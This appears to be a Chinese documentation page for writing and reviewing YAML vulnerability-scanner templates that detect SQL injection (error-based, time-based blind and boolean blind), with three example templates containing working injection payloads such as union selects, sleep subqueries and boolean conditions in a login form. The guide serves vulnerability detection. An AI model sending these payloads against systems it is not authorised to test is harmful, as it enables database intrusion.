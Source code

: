 # SQL Injection（SQL注入）

对于sql注入相关漏洞的检测，大致分为三种类型，这里分别进行分析

!> 测试SQL注入漏洞，无论是哪种类型，都请不要使用`user()`、`version()`等函数来辅助验证漏洞的存在与否。此类规则**太过宽泛**，不同系统之间显示的内容都有不同的可能，在匹配时具有一定的随机性

## 有回显注入（error based and other）

有回显的注入检测比较简单，这里以报错注入为例进行讲解

```yaml
name: poc-yaml-test-sqli-echo-based
manual: true
transport: http
set:
	r1: randomInt(8000, 10000)
rules:
	r0:
		request:
			cache: true
			method: GET
			path: /xxx.jsp?id=1%20union%20select%201,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','{{r1}}')),db_name(1),5,6,7
		expression: response.status == 200 && response.body.bcontains(bytes(substr(md5(string(r1)), 0, 31)))
expression: r0()
detail:
	author: chaitin
	links:
		- http://example.com
```

在这类的poc中，至少有一个rule会是关于sql注入的语句，但是对于结果的展示可能并不会在同一个rule中，所以下面分为两个部分讲解审核中需要注意的问题

- 对于存在`sql注入语句`的rule
    1. 对于给出的SQL注入语句
        - 语句正确无误，能够符合目标系统检出对应的漏洞，必要时可以添加一些绕过方法增加检出率
        - 对于需要验证的变量，`一定`要使用对应sql中能够使用的编码函数处理后再进行匹配，绝对不可以使用`固定值`或者`原内容`
- 对于`验证注入结果`的rule
    1. 注意返回值的编码问题，需要与注入语句中所给出的内容相同
    2. 注意返回值的长度，在部分系统中，返回内容的长度和起始位置与直接编码的结果并不相同（`updatexml`、`extractvalue` 报错回显结果可能会被截断），这时就需要使用substr等函数截取后再进行匹配

### 模板

[有回显注入](/guide/yaml/yaml_poc_template?id=普通注入)

## 时间盲注（time based）

时间盲注的检测要稍微复杂一些，同时存在着因为网络环境等误报漏报的问题，这里举例讲解如何尽可能地减少这种误报

```yaml
name: poc-yaml-test-sqli-time-based
manual: true
transport: http
set:
	randSecond1: randomInt(5, 7)
	randSecond2: randomInt(2, 4)
rules:
	r0:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep(0)))v)%2B%27/
		expression: response.status == 200
		output:
			undelayedLantency: response.latency
	r1:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond1}})))v)%2B%27/
            read_timeout: "10"
		expression: response.latency - undelayedLantency >= randSecond1 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
	r2:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond2}})))v)%2B%27/
            read_timeout: "10"
		expression: response.latency - undelayedLantency >= randSecond2 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
expression: r0() && r1()
detail:
	author: Chaitin
	links:
		- http://example.com
```

对于时间盲注来说，我们首先需要保证出了延时的不同，path的其他部分都要保证完全一致。那么当我们发送对应的payload时，至少是能排除掉因为访问路径或者参数的不同所导致的时间差异问题

同时这里分别说明一下基础的三个请求分别所对应的意义
- 第一个请求：延时为0，测出访问对应站点时的基础延时
- 第二个请求：延时一定不为0，且时长定在(5, 7)秒，通过延长一个较长的时间来发现是否发生一个延时，但是这个内容可能收到系统方面相关网络波动的影响分
- 第三个请求：延时一定不为0，且时长一定小于第二个请求中的延时，通过一个较短的时间判断这个延时一定是因为sql注入所发生的

那么依据上边所分析出来的内容，我们可以得到以下的要求

- 在第一条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第二条rule中的request信息保持一致
        - sleep的时间一定是`0s`
    2. 关于匹配的expression
        - 符合接口的返回内容即可，比较`推荐`在其中匹配一些特有的返回结果，尽可能地消除网络环境所带来的误报问题，但是不做强求
    3. 关于output的内容
        - 这条rule一定会有output的内容，其中的变量存储着这一条请求所花费的时间
- 在第二条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第一条rule中的request信息保持一致
        - sleep的时间需要设置随机值，同时随机值的最小值一定不能小于`3s`，避免数值过小带来的网络波动问题
    2. 关于匹配的expression
        - 一定需要对访问时间的差值进行比较，确保两个相似请求之间的时间差异全部是由sleep所造成的
        - 同时无特殊的情况下，`建议`除了时间差值的比较之外，其他的内容与第一条相同
- 在第三条关于注入的rule中
    - 这一条的内容与第二条除了时间的取值都相同即可
- **一定要注意添加read_timeout: "10"，不然扫描器会直接不等响应完就根据默认时间直接结束，同时要注意该漏洞的payload是否会被执行多次，造成等待时间翻倍的情况，如果存在，请自行缩短sleep时长，同时提高read_timeout的值**

?> 这里强求对页面中的部分内容进行匹配，目的是为了作为目标系统的指纹，消除网络环境的影响，防止一些不相干的系统造成的误报。同时匹配的内容不用过多，体现出目标系统的独特性即可

### 模板

[时间盲注](/guide/yaml/yaml_poc_template?id=时间盲注)

## 布尔盲注（boolean based）

布尔盲注与时间盲注相似，都是一定会存在两个包含sql注入语句的rule，这里举例分析

```yaml
name: poc-yaml-test-sqli-boolean-based
manual: true
transport: http
set:
	s1: randomLowercase(5)
	a1: randomInt(1000, 9000)
	a2: randomInt(1000, 9000)
rules:
r0:
	request:
		cache: true
		method: POST
		path: /xxx.cgi
		headers:
			Content-Type: application/x-www-form-urlencoded
		body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a2}} and %27{{s1}}%27=%27{{s1}}
		follow_redirects: true
	expression: response.body.bcontains(b"id=\"lblWarning\">User authentication Failed")
r1:
	request:
		cache: true
		method: POST
		path: /xxx.cgi
		headers:
			Content-Type: application/x-www-form-urlencoded
		body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a1}} and %27{{s1}}%27=%27{{s1}}
		follow_redirects: true
	expression: response.body.bcontains(b"id=\"lblWarning\">User Login Failed for SSLVPN User")
expression: r0() && r1()
detail:
	author: Chaitin
	links:
		- http://example.com
```

大体的验证方法与实时间盲注相同，这里说明下几个需要注意的点
- 所匹配的页面内容一定是最终的内容，follow_redirects为true时需要匹配重定向后页面的内容
- 选取的匹配内容一定是条件为真或条件为假时所出现的`特有内容`，两者不可重叠，否则及其容易出现误报的现象
- 在匹配一些关键词的时候，如果r0中匹配了"EMPNAME"，那么r1中就应该写不匹配这个"EMPNAME"的语句，也就是`!response.body_string.contains("EMPNAME")`

### 模板

[布尔盲注](/guide/yaml/yaml_poc_template?id=布尔盲注)
